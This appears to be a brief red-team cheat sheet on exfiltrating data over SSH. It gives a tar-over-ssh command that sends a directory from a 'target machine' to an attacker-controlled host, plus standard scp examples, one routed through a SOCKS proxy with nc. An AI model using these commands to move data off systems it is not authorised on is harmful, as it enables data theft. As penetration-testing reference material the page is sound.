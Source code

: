 # Data Exfiltration Over SSH

Either with `SCP` or some ssh client both should be encrypted. If you do not have access to  `SCP`:
```bash
# SSH onto the target machine
tar cf - $exfil_dir/ | ssh $attacker@$listening_domain.com "cd /tmp/; tar xpf -"
```

If you do:
```bash
# -P to specify port
scp <file> <user>@<host>:<dest>

# To copy a file from a remote server to your local machine:
scp <user>@<host>:<src> <dest>

# To scp a file over a SOCKS proxy on localhost and port 9999 (see ssh for tunnel setup):
scp -o "ProxyCommand nc -x 127.0.0.1:9999 -X 4 %h %p" <file> <user>@<host>:<dest>

# To scp between two remote servers from the third machine:
scp -3 <user>@<host1>:<src> <user>@<host2>:<dest>
```